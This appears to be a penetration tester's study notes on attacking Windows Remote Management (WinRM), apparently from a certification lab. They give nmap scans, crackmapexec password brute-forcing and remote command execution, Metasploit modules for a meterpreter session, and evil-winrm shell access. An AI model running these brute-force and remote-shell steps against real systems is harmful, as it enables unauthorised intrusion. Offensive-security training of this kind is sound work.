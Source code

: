 # Exploiting WinRM
> Windows Remote Management (WinRM) Protocol: This is a feature that exists within the Windows O/S. BUT, it is NOT configured to run by DEFAULT. It needs to be explicitly configured and enabled.
>
> WinRM uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. WinRM allows the user to: [1] Remotely communicate and interface with hosts, [2] Execute commands remotely on systems that are not local to you but are network accessible. [3] Monitor, manage and configure servers, operating systems and client machines from a remote location.
>
> As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.

WinRM Default Ports:  `5985` (http) and `5986` (https)

## Contents
- [Intro](#intro)
  - [WinRM Usage Model](#winrm-usage-model)
  - [Exploiting WinRM](#exploiting-winrm-1)
- [Exploit](#exploit)
  - [Nmap Scan](#nmap-scan)
  - [crackmapexec](#crackmapexec)
  - [MSF: winrm_login](#msf-winrm_login)
  - [MSF: winrm_auth_methods](#msf-winrm_auth_methods)
  - [MSF: winrm_script_exec](#msf-winrm_script_exec)
  - [Ruby Script: evil-winrm](#ruby-script-evil-winrm)

## Intro

### WinRM Usage Model
- WinRM is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP/HTTPS.
- Microsoft implemented WinRM in Windows to make life easier for system administrators.
- WinRM is typically used for:
  - Remotely accessing and interacting with Windows hosts on a local network.
  - You can also configure WinRM to work over the Internet (login to a server, etc.).
  - Remotely access and execute commands on Windows systems.
  - Manage and configure Windows systems remotely.
- WinRM typically used TCP port 5985 (http) and 5986 (https) by default.

### Exploiting WinRM

#### Steps:
1. Brute-force login creds with crackmapexec.
2. Exploit with evil-winrm or MetaSploit

#### Explanation:
- WinRM implements access control and security for communication between systems through various forms of authentication.
  - This could be a simple username/password combo.
  - You could also provide the user account username and a password hash.
- We can utilize a utility called `crackmapexec` to perform a brute-force attack on WinRM in order to identifiy users and their passwords as well as execute commands on the target system.
- We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.
- We can also utilize MetaSploit to get a meterpreter session. 

## Exploit

### Nmap Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
# or
nmap -sV -p 5985-5986 [target ip]        # (which kinda seems like cheating)
```
- The `-sV` should be sufficient.
- Problem: WinRM ports (5985, 5986) do not fall within the 1000 most common ports scanned by nmap.
- Solution: Do a `-p-` scan and wait it out.
- NOTE: Don't accept the nmap result for the VERSION of WinRM as what you actually have.
  - WinRM does not provide banner information for versions, etc.
  - Nmap gives a best guess.

### [crackmapexec](https://ptestmethod.readthedocs.io/en/latest/cme.html)
> CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.
- Supported Protocols: WinRM, MSSQL, SMB, SSH

#### For help:
```
crackmapexec -h
crackmapexec winrm -h    # for help specific to the winrm protocol
crackmapexec smb -h      # for help specific to the smb protocol (etc.)
```

#### General Syntax:
```
crackmapexec <protocol> <target(s)> -u username -p password
```

#### Examples:
```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
# or
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

#### Brute-Force:
```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```
- You can use the `-u` switch to specify a file of possible user names to try.
- But, if we can get into the admin account, we don't have to do priv esc
- You should get a green `[+]` if successful.
- Look over the output (from the top down):
  - First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).
  - If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine...

#### Execute Commands:
```
crackmapexec winrm [target ip] -u administrator -p [password] -x "whoami"
crackmapexec winrm [target ip] -u administrator -p [password] -x "systeminfo"
```
- You should get some happy feedback along with the results of your command execution.
- The `systeminfo` command a takes while to run but provides a lot of information about your target system.


### MSF: winrm_login
- You can brute-force login creds with MetaSploit, also...
```
> use auxiliary/scanner/winrm/winrm_login
> set RHOSTS
> set USER_FILE /path/to/file
> set PASS_FILE /path/to/file
> set VERBOSE false
> run
```

### MSF: winrm_auth_methods
- You may need to find out what authentication methods your WinRM server allows: 
```
use auxiliary/scanner/winrm/winrm_auth_methods
```

### MSF: winrm_script_exec
- Obtaining a meterpreter session.
- NOTE: This module requires credentials, so you'll need to perform the brute-force attack first.
```
> search winrm_script
> use exploit/windows/winrm/winrm_script_exec
> show options
  # change what you need to: RHOSTS, etc. 
  # check your default payload and change if necessary (depending on your target system)
> set FORCE_VBS true
  #  this forces the use of a VBS Command Stager
> set username...
> set password...
> exploit
```
- You should get a meterpreter session. If it did not work, you'll have to keep trying.
- **_Remember to to set the `FORCE_VBS` to "true."_**

### Ruby Script: [evil-winrm](https://github.com/Hackplayers/evil-winrm)
> Ruby Script to Obtain Command Shell Session
```
evil-winrm.rb -u administrator -p '[password]' -i [target ip]
```
- This should automagically provide you with a command shell session. Test it out with...
```
whoami
ipconfig
net user
systeminfo
```
